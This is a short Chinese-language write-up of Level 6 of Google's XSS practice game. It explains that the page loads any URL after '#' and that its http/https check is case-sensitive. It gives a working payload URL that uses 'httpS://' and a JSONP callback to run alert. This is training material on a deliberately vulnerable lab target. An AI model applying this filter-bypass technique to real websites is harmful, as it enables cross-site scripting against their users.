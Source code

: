 # Level-6

## 攻擊原理

#### 原始碼
- index.html

#### 手法:
- # 後的 URL 都會被執行
- 程式碼會用 url.match 檢查 http/https，但不是大小寫敏感！


## 攻擊方法
- 在 frame URL 中輸入

```
https://xss-game.appspot.com/level6/frame#httpS://www.google.com/jsapi?callback=alert
```

## 截圖

#### Request:
![image info](./00.png)

#### Response:
![image info](./01.png)

